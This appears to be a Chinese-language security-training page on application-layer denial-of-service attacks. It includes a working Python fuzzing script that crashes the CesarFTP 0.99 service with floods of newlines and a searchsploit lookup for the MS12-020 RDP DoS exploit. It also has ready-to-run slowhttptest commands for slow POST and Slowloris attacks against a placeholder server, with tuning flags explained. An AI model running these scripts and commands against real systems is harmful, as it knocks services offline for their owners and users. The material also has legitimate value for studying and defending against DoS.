 
# 应用层DoS

> * 应用服务漏洞
>   - 服务代码存在漏洞，遇异常提交数据时程序崩溃
>   - 应用处理大量并发请求能力有限，被拒绝的是应用或OS
> * 缓冲区溢出漏洞
>   - 向目标函数随机提交数据，特定情况下数据覆盖临近寄存器或内存
>   - 影响：远程代码执行、DoS
>   - 利用模糊测试方法发现缓冲区溢出漏洞


* 实例1 - CesarFTP 0.99    服务漏洞 
```python
#!/usr/bin/python
# -*- coding:utf-8 -*-
import socket
import sys
if len(sys.argv) != 5:
    print("用法：./ftp_fuzz.py [目标IP] [目标端口] [步长] [最大长度]")
    print("举例：./ftp_fuzz.py  1.1.1.1  21   100  1000")
    sys.exit()
    
ip = str(sys.argv[1])
port = int(sys.argv[2])
i = int(sys.argv[3])
step = int(sys.argv[3])
max = int(sys.argv[4])
user = raw_input(str("FTP账号："))
passwd = raw_input(str("FTP密码："))
command = raw_input(str("FTP命令："))
 
while i <= max:
    try:
        payload = command + " " + ('\n' * i)
        print("已发送" + str(i) + "个换行符")
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send('USER' + user + '\r\n')
        s.recv(1024)
        s.send('PASS' + passwd + '\r\n')
        s.recv(1024)
        s.send(payload + '\r\n')
        s.send('QUIT\r\r')
        s.recv(1024)
        s.close()
        i = i + step
    except:
        print("\n服务已奔溃")
        sys.exit()
 
print("\n未发现缓冲区溢出漏洞")
```


* 实例2 - Ms12-020 远程桌面协议DoS漏洞
``` 
searchsploit ms12-020
　/usr/share/exploitdb/exploits/windows/dos/18606.txt　　// 找到其利用方法
```



## Slowhttptest
* 特点
1. 低带宽应用层慢写DoS攻击（相对于CC等快速攻击而言的慢速）　　　　客户端只有1M的带宽，服务器有1G的带宽，仍然可以用仅有的1M的带宽将服务器拥有1G的带宽打死  
2. 最早由Python编写，跨平台支持（Linux、win、Cygwin、OSX）  
3. 尤其擅长攻击apache、tomcat（几乎百发百中）  

* 攻击方法
> 1. Slowloris、Slow HTTP POST 攻击
>   - 耗尽应用的并发连接池，类似于Http层的Syn flood
>   - HTTP协议默认在服务器全部接收请求之后才开始处理，若客户端发送速度缓慢或不完整，服务器时钟为其保留连接资源池占用，此类大量并发将导致DoS
>   - Slowloris：完整的http请求结尾是\r\n\r\n，攻击发\r\n……
>   - Slow POST：HTTP头content-length声明长度，但body部分缓慢发送
> 2. Slow Read attack攻击
>   - 与 slowloris and slow POST目的相同，都是耗尽应用的并发连接池
>   - 不同之处在于请求正常发送，但慢速读取响应数据
>   - 攻击者调整TCP window窗口大小，是服务器慢速返回数据
> 3. Apache Range Header attack （对DVWA测试无效）
>   - 客户端传输大文件时，体积查过HTTP Body大小限制时进行分段
>   - x2耗尽服务器CPU、内存资源

* 攻击1 - HTTP Post 攻击模式
``` 
// -c 建立1000个连接  
// -B Slow HTTP POST模式攻击 
// -g  -o 输出到body_stats文件,-i  间隔110秒，
// -r  请求的速率  
// -s  指定Content-Length header的长度（只适用于Slow HTTP POST攻击模式） 
// -t  采用的是FAKEVERB请求方式   
// -u  指定URL  
// -x  指定每次传输数据最大的长度   
// -p  指定在多长时间内服务端没有响应我我就判定其被dos了
slowhttptest -c 1000 -B -g -o body_stats -i 110 -r 200 -s 8192 -t FAKEVERB   -u http://1.1.1.1 -x 10 -p 3　　
```

* 攻击2 - slowloris 攻击模式
```go 
// -H 采用SlowLoris攻击模式
slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://1.1.1.1 -x 24 -p 3　　
```
**配置: ulimite -n 70000　　　　　　// 设置最大文件打开数**


* 攻击3 - 其他攻击
``` 
▪ 炸邮箱
　　– 使用垃圾邮件塞满邮箱
▪ 无意识的/非故意的拒绝服务攻击
　　– 数据库服务器宕机恢复后，引用队列大量请求洪水涌来
　　– 告警邮件在邮件服务器修改地址后洪水攻击防火墙
```

